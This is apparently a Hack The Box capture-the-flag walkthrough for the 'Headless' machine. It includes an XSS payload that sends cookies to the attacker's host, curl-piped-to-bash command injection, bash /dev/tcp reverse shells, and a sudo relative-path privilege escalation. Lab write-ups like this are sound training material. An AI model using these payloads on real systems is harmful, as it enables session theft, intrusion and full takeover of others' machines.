 # Machine Headless from [Hack The Box](https://www.hackthebox.com)

Target ip: 10.10.11.8

## 1) Enumeration and reconnaissance
As always we start scanning the target with `nmap`
```
nmap -p- -sS -n -Pn -vvv --min-rate 7000 -oG open_ports 10.10.11.8
```
There are **two open ports** are: 22 (SSH) and 5000.

We can obtain more information on the services running on those ports using some scanning scripts from nmap with the following command
```
nmap -p22,5000 -sCV --min-rate 7000 -n -oN ports_details 10.10.11.8
```
`-sC:` to run default reconnaissance scripts \
`-sV:` to perform a version scan

We can see that TCP port 5000 is hosting a web server so from the browser we go to `http://10.10.11.8:5000/` and find out a button that redirects as to a "support page" containing a form.

<style>
.center-60 {
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 60%;
}
</style>

<img src="imgs/homepage.png" alt="Home page" width="50%" height="50%" class="center-60">

<img src="imgs/support.png" alt="Support page" width="80%" height="50%" class="center-60">

Before playing with the form in the support page it would be interesting to do some fuzzing hoping to find more endpoints.

```
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x html,php,txt,py -q
```

# Gaining access to target machine

After playing a while with the form fields I wasn't able to obtain neither XSS nor SQL injections. So I decided to go back and look for any other endpoint gobuster may have found and the only other results was `/dashboard` with code 500, so since I can't access dashboard nor gain access with the fields from the form, I will try manipulating the request headers.

Following the first approach on [this blog](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) we can try to steal cookies which may help us to bypass the security of `/dashboard`.

So the idea is to add the following to some fields on the header request (using Burpsuite's repetear here)
```
<script>var i=new Image(); i.src="http://<MY-IP>/?cookie="+btoa(document.cookie);</script>
```
But before sending the requests we need to open a http server:\
`python3 -m http.server -m 80`

Once the requests go throw we receive, in the terminal running the python server, a cookie:
`aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=`\
It's base64 encoded so we decode it
```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
#is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Turns out the cookie's name is `is_admin`, therefore it makes sense trying to use it to bypass `/dashboard` security.

To do so, instead of continue using Burpsuite I'm gonna use the browser directly. In my case I'm using Firefox but any web browser works the same. What we need to do before going to the desired endpoint is to manually add the obtained cookie to the request, for that we use the 'web developer tools' tab from the browser and add our cookie there.

![Cookie](imgs/cookie.png)

It worked! We bypassed the 500 code! But we are not inside target machine yet.

Now the panel does not contain too much info, just a button and a drop down list to pick dates. Whenever we see this kind of drop-down lists that forces us to some predefined inputs it's a good idea to intercept the requests with a proxy and manually modifies those. \
So once again we use Burpsuite and intercept the request that happens when we press the 'Generate Report' button.
![Dashboard-bypass](imgs/dashboard-bypass.png)


Modifying the date does not seem to be doing anything. BUT, the server is executing our commands, we achieved RCE!
How? This is an example payload:

![alt text](imgs/payload.png)

I'm using `curl` to read the content of a file from my machine and piping it to bash so the server executes it. The content of that `pwned.sh` is nothing else than a reverse shell
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```
Before sending the request from Burpsuite's repeater we must start listening on the choosen port (434) and open a server to share the file
```
nc -nlvp 434
python -m http.server 443
```

After sending the request we receive a connection in the terminal running netcat.

## Retrieving user flag
We are already logged in as the user `dvir` so retrieving the user flag is easy
`cat /home/dvir/user.txt`

## Scalating privileges
Now the challenge is to obtain root access in order to retrieve the root flag.

As always my first approach is to run `sudo -l` to see if we have any special access.
It happens that the user `dvir` is able to run the script `/usr/bin/syscheck` with sudo levels.

![Dvir user](imgs/dvir-user.png)
![Serving pwned script](imgs/sharing-pwned.png)

![Scalating privilegs](imgs/scalating-priv.png)

Inspecting that script we realize it's running another script called `initdb.sh` using a relative path. So we just go ahead and create our own file with the same name, the content is would be -once again, a reverse shell. And since we are going to run it as sudo, the root user is the one that would be stablishing that connection.
```
# content of initdb.sh
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```

From host machine we use netcat to listen on a port 
```
nc -nlvp 434
```

```
# we run the syscheck script as sudo
sudo /usr/bin/syscheck
```

On the terminal listening with netcat we received a connection! And the user is **root**.\
Now we get the remaining flag 

`cat /root/root.txt`


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Server on port 5000 ended up being vulnerable to XSS via request's headers.
* Cookie hijacking allowed us to bypass `/dashboard` security panel.
* Improper sanitization of payload request allowed an RCE.
* User dvir is able to run a vulnerable script as sudo.